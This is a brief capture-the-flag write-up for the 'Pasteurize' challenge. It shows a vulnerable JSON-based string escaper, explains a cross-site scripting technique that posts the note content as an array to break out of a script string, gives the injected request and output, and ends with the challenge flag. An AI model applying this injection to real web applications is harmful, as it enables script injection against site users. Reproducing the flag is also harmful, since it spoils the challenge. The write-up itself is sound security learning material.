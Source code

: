 # Pasteurize
Post an array instead of a single value, then we can just inject JS directly. Vulnerable code:
```
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```

POST with "content=test" yields the expected:

```
<script>
        const note = "test";
        const note_id = "8028b109-cac1-4351-ad42-16c61cded87d";
...
```

POST with "content[]=; test; //" yields XSS:
```
<script>
        const note = ""; test; //"";
        const note_id = "8028b109-cac1-4351-ad42-16c61cded87d";
```

# See also
http://xss.wep.dk/?id=5f40ca5c92911

## FLAG
CTF{Express_t0_Tr0ubl3s}
